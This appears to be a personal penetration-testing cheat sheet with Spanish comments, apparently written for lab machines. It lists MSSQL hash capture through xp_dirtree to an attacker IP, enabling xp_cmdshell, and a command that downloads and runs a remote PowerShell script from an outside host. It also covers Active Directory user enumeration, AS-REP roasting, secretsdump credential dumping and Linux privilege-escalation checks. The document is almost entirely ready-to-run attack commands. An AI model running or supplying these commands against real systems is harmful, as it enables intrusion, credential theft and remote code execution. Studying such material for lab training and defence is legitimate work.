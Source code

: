mssql
```
mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth  (Siempre hay que poner un dominio y si no tiene o no sabemos cual, intentar con WORKGROUP)
Capturar hash 
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'  
RCE
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1' 
RECONFIGURE

xp_cmdshell whoami /all
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.49.235/mario.ps1") | powershell -noprofile'
```
Active Directory
```
lookupsid.py anonymous@10.10.16.53 <-- Obtener usuarios validos

ASREP ROAST
GetNPUsers.py htb.local/ -no-pass -usersfile users.txt

Si tenemos algun usuario admin. Dumpear credenciales
secretsdump.py <DOMINIO>/<USER>:<PASS>@10.10.238.227

sincronizar hora
sudo rdate -n <ip>

```

## Linux Priv esc

### Check List
```
sudo -l <-- Revisar si tenemos scripts en los cuales no tengan rutas relativas o en directorios en los que tengamos permiso de escritura
Buscar SUID
find / -perm -u=s -type f 2>/dev/null
Buscat kernel exploits
uname -a

```
### Script cron check
```bash 
old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
	old_process=$new_process
done
```
### Ver a que grupo pertenecemos
```
id
uid=1000(funny) gid=1000(funny) groups=1000(funny),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe
```

